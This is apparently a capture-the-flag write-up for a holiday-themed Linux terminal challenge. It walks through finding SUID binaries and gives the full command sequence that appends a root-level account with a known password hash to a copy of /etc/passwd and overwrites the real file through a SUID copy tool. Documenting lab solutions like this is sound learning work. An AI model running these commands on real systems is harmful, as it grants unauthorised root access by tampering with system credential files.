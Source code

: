 # Preface
![](../images/Linux-Priv-Esc.jpg)


# Linux PrivESC:
When I first started the challenge, I was greeted with:

```txt
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Using the article provided by the hint *Linux Privilege Escalation Guide (Updated for 2023)* by Rashid-Ferose published by Payatu, I tried the strategies provided by the article. When I came across this:

![](../images/Linux-PrivEsc-part-1.png)

It seemed interesting. In order to see if the Linux system I was working on had anything that could be used for a privilege escalation attack that also had a SUID bit set, I used this command:

```txt
find / -perm -u=s -type f 2>/dev/null
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-2.png)

The simplecopy command seemed interesting. Since it had a sudo attribute set, I could theoretically use it to perform a linux privelege escalation attack by overwrititng the password file to give me root access. But first I needed to check if simplecopy had was an actual file copier, so I ran:

```txt
simplecopy
```

After I executed the command, the result was:

`Usage: simplecopy <source> <destination>`

So simplecopy is basically the `cp` command but with a SUID bit set. Now I only need to check if simplecopy has root read and write permissons. In order to do this, I typed:

```txt
ls -la /usr/bin/simplecopy
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-4.png)

Simplecopy has root read and write permissions. I then read the article *Linux Privilege Esclation using the SUID bit* by Rangeforce, where I found this interesting bit:

![](../images/Linux-PrivEsc-part-5.png)

Simplecopy can read and write. This could be the solution. I then continued to read:

![](../images/Linux-PrivEsc-part-6.png)

I then followed the instructions, and typed:

```txt
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
simplecopy source/passwd destination
su root2
```
When asked for the password for the `su` user root2, I typed `mrcake` (WVLY0mgH0RtUI is mrcake encrypted as mentioned by the article that root2's password is mrcake). I then gained root access. Since I had to run the binary that was in the `/root` folder, I typed:

```txt
cd ..
cd ..
cd root
ls
```

The output of the `ls` command showed me that binary in `/root` was named `runmetoanswer`. To run the binary, I typed:

```txt
./runmetoanswer
```

Which resulted in this prompt:

```txt
Who delivers Christmas presents?

>
```
I first typed `Santa` as my answer, which was incorrect. So I reran the binary and entered `santa` as my answer, and the result was:

![](../images/Linux-PrivEsc-part-10.png)

Done.







